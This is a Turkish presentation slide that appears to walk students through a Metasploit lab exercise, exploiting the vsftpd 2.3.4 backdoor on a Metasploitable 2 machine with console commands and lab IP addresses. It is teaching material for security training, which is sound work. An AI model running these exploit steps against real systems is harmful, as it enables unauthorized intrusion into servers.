

# Metasploit Framework ile Bir Alıştırmanın Adımları
Terminal penceresinde msfconsole yazın ve ENTER’a basın.
Metasploit konsolunda search vsftpd yazın ve ENTER’a basın.
Metasploit konsolunda use exploit/unix/ftp/vsftpd_234_backdoor yazın ve ENTER’a basın.
show options yazın ve ENTER’a basın.
set RHOST 192.168.2.42 yazın ve ENTER’a basın (Metasploitable 2 IP).
set RPORT 21 yazın ve ENTER’a basın.
set LHOST 192.168.2.143 yazın ve ENTER’a basın (Kali IP).
show payloads yazın ve ENTER’a basın.